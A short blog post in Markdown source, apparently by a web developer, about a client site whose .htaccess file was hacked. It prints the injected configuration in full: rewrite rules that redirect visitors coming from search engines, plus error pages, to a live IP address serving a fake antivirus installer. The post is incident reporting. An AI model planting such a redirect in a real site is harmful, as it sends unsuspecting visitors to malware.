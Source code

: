 ```yaml
---
layout: post
title: ".htaccess hacked"
custom_v2_id: 50
tags: hack, ftp, htaccess
---
```


Today a client called me telling me that its website was unavailable, or more
exactly that the full content of the FTP was displayed instead of its
homepage.

After a little investigation it appears that the .htaccess file had been
modified, here was the content I found :


```apache
RewriteEngine On
ErrorDocument 400 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 401 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 403 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 404 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 500 http://217.23.5.232/hitin.php?land=20&affid=20116
RewriteCond %{HTTP_REFERER} .*google.* [OR]
RewriteCond %{HTTP_REFERER} .*ask.* [OR]
RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]
RewriteCond %{HTTP_REFERER} .*excite.* [OR]
RewriteCond %{HTTP_REFERER} .*altavista.* [OR]
RewriteCond %{HTTP_REFERER} .*msn.* [OR]
RewriteCond %{HTTP_REFERER} .*netscape.* [OR]
RewriteCond %{HTTP_REFERER} .*aol.* [OR]
RewriteCond %{HTTP_REFERER} .*hotbot.* [OR]
RewriteCond %{HTTP_REFERER} .*goto.* [OR]
RewriteCond %{HTTP_REFERER} .*infoseek.* [OR]
RewriteCond %{HTTP_REFERER} .*mamma.* [OR]
RewriteCond %{HTTP_REFERER} .*alltheweb.* [OR]
RewriteCond %{HTTP_REFERER} .*lycos.* [OR]
RewriteCond %{HTTP_REFERER} .*search.* [OR]
RewriteCond %{HTTP_REFERER} .*metacrawler.* [OR]
RewriteCond %{HTTP_REFERER} .*bing.* [OR]
RewriteCond %{HTTP_REFERER} .*dogpile.*
RewriteRule ^(.*)$ http://217.23.5.232/hitin.php?land=20&affid=20116 [R=301,L]
```

A little search online told me that this IP refer to a malware website
launching a fake Antivirus software installation.

I have no idea how the `.htacces`s got modified, but I changed the FTP password.
